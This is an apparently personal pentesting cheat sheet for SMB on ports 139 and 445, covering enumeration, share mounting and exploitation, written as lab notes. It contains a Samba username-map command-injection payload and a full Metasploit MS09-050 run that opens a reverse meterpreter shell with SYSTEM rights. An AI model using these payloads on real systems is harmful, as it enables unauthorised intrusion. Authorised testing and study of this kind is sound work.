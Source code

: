 # smb 139,445

## SMB Enumeration

### Guess Server's Version

``` bash
nmap -p 139,445 $ip --script=smb-os-discovery
```

Detect Server's version using nmap features.

``` bash
nmap -A 10.10.10.4
```

### Scanning

smbclient

``` bash
smbclient -NL //ip
```

``` bash
smbclient -L ip --port=445 --user=Administrator
```

smbmap

``` bash
smbmap -H $ip
```

``` bash
smbmap -u <user> -H $ip
```

### Scanning Vul

``` bash
nmap -p 139,445 --script smb-vul* $ip
```

### Other Tools

NetBIOS information

``` bash
nbtscan -r $ip
```

enum4linux

``` bash
enum4linux -a $ip
```

rpcclient

``` bash
rpcclient -U "" $ip
```
## Connect to SMB

### smbclient

``` bash
smbclient //ip/folder
```

``` bash
smbclient \\\\ip\\folder -U john 
```

### smbmap

``` bash
smbmap -H 192.168.11.135 -u windows_10_1903_x64 -p passwd -r 'Users\windows_10_1903_x64\Desktop'
```

### Mount Access

``` bash
sudo mount -t cifs -o user=USERNAME,sec=ntlm,dir_mode=0077 "//ip/My Share" /mnt/cifs
```

``` bash
sudo mount -t cifs -o username=Administrator,password=123456 /mnt/win10_share -o port=445 //ip/Data
```

``` bash
sudo mount -o nolock $ip:/home ~/home/
```

### Windows

``` bash
\\ip\a\whoami.exe
```

## SMB Commands

``` bash
srvinfo
enumdomusers
getdompwinfo
querydominfo
netshareenum
netshareenumall
```

## Config Samba

`/etc/samba/smb.conf`

``` txt
min protocol = SMB1
```

## SMB CVE

### Samba 3.0.20 < 3.0.25rc3 - 'Username' map script'

[https://www.exploit-db.com/exploits/16320](https://www.exploit-db.com/exploits/16320)

``` bash
smbmap -u '/=`ping -c 2 ip`' -H ip
```

### smb-vuln-cve2009-3103

Using python exploit but not complete, exploit [here](https://github.com/leecybersec/private-machines/blob/master/pg/warm-up/Internal_smb-vuln-cve2009-3103/MS09_050.py)

ExploitDB: [https://www.exploit-db.com/exploits/40280](https://www.exploit-db.com/exploits/40280)

``` bash
$ python3 MS09_050.py ip
Enter WORKGROUP\Administrator's password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

``` bash
$ sudo msfconsole -q
use exploit/multi/handler
set lhost tun0
set lport 445
set EXITFUNC thread
run
```

Using msfconsole

``` bash
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > show options

Module options (exploit/windows/smb/ms09_050_smb2_negotiate_func_index):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  ip    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   445              yes       The target port (TCP)
   WAIT    180              yes       The number of seconds to wait for the attack to complete.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     445              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Vista SP1/SP2 and Server 2008 (x86)


msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > run

[*] Started reverse TCP handler on ip
[*] ip:445 - Connecting to the target (ip:445)...
[*] ip:445 - Sending the exploit packet (951 bytes)...
[*] ip:445 - Waiting up to 180 seconds for exploit to trigger...
[*] Sending stage (175174 bytes) to ip
[*] Meterpreter session 2 opened (ip:445 -> ip:49159) at 2021-07-06 23:40:40 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```